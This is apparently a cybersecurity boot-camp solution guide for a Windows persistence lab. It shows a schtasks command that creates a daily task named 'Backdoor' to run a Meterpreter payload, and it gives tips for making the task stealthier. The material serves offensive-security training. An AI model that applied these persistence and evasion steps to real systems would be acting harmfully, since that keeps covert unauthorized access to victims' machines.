 ## Solution Guide: Windows Persistence

In this activity, you established persistence on the machine to ensure your SYSTEM access. You created a scheduled task that executes a custom Meterpreter payload.

### Instructions

You will work off your Meterpreter session on the Windows 10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC DAILY /ST 00:00 /TR "C:\shell.exe"`

	 ![A screenshot depicts the results of the command.](schtask.PNG)

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 ![A screenshot depicts the results of the command.](testschtask.PNG)

4. How could you improve this technique to make it more stealthy?

     - Use a better task name.

     - Execute a better-named payload.

     - Schedule the task only to run on certain events, such as logon.

---

&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



